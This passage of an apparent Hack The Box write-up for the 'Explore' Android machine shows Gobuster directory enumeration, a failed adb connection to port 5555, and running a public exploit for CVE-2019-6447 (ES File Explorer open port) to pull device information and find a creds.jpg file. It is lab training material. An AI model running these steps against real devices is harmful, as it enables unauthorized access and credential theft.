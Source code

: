 ### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://explore.htb:59777/

```
http://10.10.10.247:59777/bin                  (Status: 301) [Size: 63] [--> /bin/]
http://10.10.10.247:59777/cache                (Status: 301) [Size: 67] [--> /cache/]
http://10.10.10.247:59777/config               (Status: 301) [Size: 69] [--> /config/]
http://10.10.10.247:59777/d                    (Status: 301) [Size: 59] [--> /d/]
http://10.10.10.247:59777/data                 (Status: 301) [Size: 65] [--> /data/]
http://10.10.10.247:59777/dev                  (Status: 301) [Size: 63] [--> /dev/]
http://10.10.10.247:59777/etc                  (Status: 301) [Size: 63] [--> /etc/]
http://10.10.10.247:59777/init                 (Status: 403) [Size: 31]
http://10.10.10.247:59777/lib                  (Status: 301) [Size: 63] [--> /lib/]
http://10.10.10.247:59777/oem                  (Status: 301) [Size: 63] [--> /oem/]
http://10.10.10.247:59777/product              (Status: 301) [Size: 71] [--> /product/]
http://10.10.10.247:59777/proc                 (Status: 301) [Size: 65] [--> /proc/]
http://10.10.10.247:59777/sbin                 (Status: 301) [Size: 65] [--> /sbin/]
http://10.10.10.247:59777/storage              (Status: 301) [Size: 71] [--> /storage/]
http://10.10.10.247:59777/sys                  (Status: 301) [Size: 63] [--> /sys/]
http://10.10.10.247:59777/system               (Status: 301) [Size: 69] [--> /system/]
```
However upon manual inspection, all of these sites redirect to an error FORBIDDEN page, so this is a deadend. However, looking at the endpoints, this port seems to be hosting the directories of the ES File Explorer.

### Exploring port 5555

Using adb, we will try to connect to port 5555 to check if we are able to connect to port 5555 over adb. However, we realized that we are unable to connect to port 5555 as it is not open

```
┌──(kali㉿kali)-[~/Desktop/android-tools]
└─$ ./adb connect 10.10.10.247:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
```

This may possibly be due to the fact that this port is only accessible from the localhost (127.0.0.1).
## Exploit
### CVE-2019-6447
Using the code from [exploitdb](https://www.exploit-db.com/exploits/50070), we will try to exeute the code to obtain the device information.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop]
└─$ python3 exploit.py getDeviceInfo 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```
### Finding creds.jpg
Afterwards, we will try to list all the files but we are unable to find any files of interest. We will move on to list all the images. From here, we found an interesting creds.jpg file which may contain some credentials that we can use.
